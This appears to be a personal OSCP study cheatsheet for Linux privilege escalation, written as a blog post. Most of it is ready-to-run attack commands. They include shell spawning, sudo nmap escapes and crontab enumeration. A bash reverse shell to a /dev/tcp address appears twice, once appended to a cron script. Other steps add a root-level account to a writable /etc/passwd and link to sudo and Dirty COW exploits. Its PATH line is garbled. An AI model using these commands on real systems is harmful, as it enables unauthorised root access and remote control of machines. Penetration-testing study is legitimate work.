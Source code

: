 ```yaml
---
title: Linux Privilege Escalation
author: linatl
date: "2021-03-23 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Upgrading Shells
```
Upgrade sh to bash using python2
> python -c 'import pty; pty.spawn("/bin/sh")'
> python -c 'import pty; pty.spawn("/bin/bash")'

Correcting the $PATH variable for sh / bash
> export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin/usr/bin:/sbin:/binusr/local/sbin:/usr/local/bin:/usr/sbin:/bin

Upgrading from rbash:
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/

Start bash instance:
> /bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1
```

###### Sudo -l
```
List user privileges for sudo
> sudo -l

Nmap interactive
> sudo nmap --interactive
> nmap> !bash
```

###### crontabs
```
enumerating crontab:
> ls -al /etc/cron* /etc/at*
> cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/> dev/null | grep -v "^#"

Add a line to a file:
> echo "/bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1" >> cleanup.sh
```

###### Writable /etc/passwd or /etc/shadow
```
Make the salt value of a password:
> openssl passwd -1 -salt ignite password
Add this line to /etc/passwd (get immediate root shell)
username:$1$ignite$tTBj87JPlfWJIFioYSmpC0:0:0:root:/root:/bin/bash
```

###### GTFObins
```
https://gtfobins.github.io/
```

###### CVE-2021-3156 (Sudo exploit)
```
64bit
https://github.com/worawit/CVE-2021-3156
```

####### Compiling C Exploits
```
> gcc exploit.c -o exploit
Installing gcc libraries for cross compiling
> sudo apt-get install gcc-multilib
> gcc -m32 -Wall exploit.c -o exploit
```

###### Dirtyc0w
```
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
Note: the /proc/self/mem file is not writable on some RHEL/CentOS versions.
```
